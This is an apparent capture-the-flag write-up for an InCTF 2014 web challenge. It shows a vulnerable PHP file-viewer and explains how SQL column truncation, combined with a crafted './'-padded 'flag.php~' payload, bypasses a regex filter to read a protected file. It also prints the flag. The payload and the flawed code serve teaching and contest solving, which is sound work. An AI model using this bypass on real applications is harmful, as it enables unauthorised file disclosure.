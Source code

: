 +++
title="InCTF 2014 - Web 300 writeup"
date="2014-03-08"
description="A web security writeup on SQL Truncation vulnerability that we used to solve a challenge in InCTF 2014"
author="Nagesh Podilapu"
aliases=["2014/03/08/inctf-2014-web-300.html"]
[taxonomies]
tags=["ctf", "web", "SQLi"]
+++

In this challenge they gave a website like below with a simple form with GET Method.

![Front page of the given challenge](front_screen.png)

And the source of the form is given as well

```html
<h1>File Share</h1>
<span style="color: green;"><strong>View your files</strong></span>
<form method="GET">
<table>
<tbody>
<tr>
<td align="right">File Name:</td>
<td align="left"><input type="text" name="filename" placeholder="*.txt " /></td>
</tr>
<tr>
<td align="right"><img alt="" src="captcha.php" /> :</td>
<td align="left"><input type="text" name="vercode" /></td>
</tr>
<tr>
<td></td>
<td align="left"><input type="submit" value="Submit" /></td>
</tr>
</tbody>
</table>
</form>
 <!-- Source : view.php~ -->
```

and after looking at the given source page, I found a link to php code of the web page

```php
<?php
include 'db.php';
if(isset($_GET['vercode']) && isset($_GET['filename'])){
    session_start();
    if ($_GET['vercode'] != $_SESSION["vercode"] OR $_SESSION["vercode"]==''){
        die("Wrong Captcha..");
    }
    $filename = mysql_real_escape_string($_GET['filename']);
    $id       = md5(mt_rand().rand());

    if(preg_match('/\.\.|(\.php$)/is',$filename))    die('Can\'t read php files..');
    $query = mysql_query("INSERT INTO foo VALUES('$id','$filename');");
    if($query)
        die("View your file: <a href="?id=$id">here</a>\n");
    else
        die("Something went wrong..");
    mysql_free_result($query);
}
if(!empty($_GET['id'])){
    $id      = mysql_real_escape_string($_GET['id']);
    $query   = mysql_query("SELECT * FROM foo WHERE id='$id'");
    if(!$query) die("Something went wrong..");
    while ($row = mysql_fetch_array($query)) {
        echo $row['FILENAME'];
        if (file_exists('./files/'.$row['FILENAME'])) {
            echo file_get_contents('./files/'.$row['FILENAME']);
        }
        else {
            die('No such file');
        }
 }
 mysql_free_result($query);
}
mysql_close();
?>
```

And it's a difficult challenge for me to get contents of flag.php, so I waited for hints and just before 2 days to the end of contest admin released a hint for this challenge which is an image containing text **truncation**.

Then I understood that I have to do something with SQL Truncation. After reading some blogs, I understood that, If we try to insert a value into a column greater than it's length, it will insert only the part until the length and ignores the rest.

Example: This is a description of a table named `data` with a column `FILNAME` with length of 30.

```
+----------+-------------+------+-----+---------+-------+
| Field    | Type        | Null | Key | Default | Extra |
+----------+-------------+------+-----+---------+-------+
| id       | varchar(35) | YES  |     | NULL    |       |
| FILENAME | varchar(30) | YES  |     | NULL    |       |
+----------+-------------+------+-----+---------+-------+
```

And If you insert a value of length 32 like below.
```
INESRT INTO DATA VALUES('myID','d4c9fcb601ebe8aa8d4ab59dcdbf692a');
```
After executing the above query, contents of table are

```
+------+--------------------------------+
| id   | FILENAME                       |
+------+--------------------------------+
| myID | d4c9fcb601ebe8aa8d4ab59dcdbf69 |
+------+--------------------------------+
```

If you would have observed, even if we insert a value of length 32 into column **FILENAME** only 30 characters added to table and rest of the string **2a** got skipped.

And then all I had to do is to find out length of the filename column by giving 500 A's as input to it, but script printed 110 A's only. Which means our filename column length is 110. So after that, I came up with this payload

```
./././././././././././././././././././././././././././././././././././././././././././././././././././flag.php~
```

**~** character at the end bypasses the regular expression **/\.\.|(\.php$)/is** and skipped by the insert query because it's the 111th character.
That gives us the contents of flag.php in source page.

```php
<?php
$leet = "53714c5f63306c756d6e5f7472756e63407469306e";
function hex2str( $hex ){
    return pack('H*', $hex);
}
echo "flag{".md5(hex2str($leet))."}";
?>
```

After executing that php code I got the flag.

Flag is: **flag{f89759dab5b6ef402428c4571040c067}**

Thanks for reading and thanks to team **bi0s** for making a great CTF and introducing me to different attack vectors.
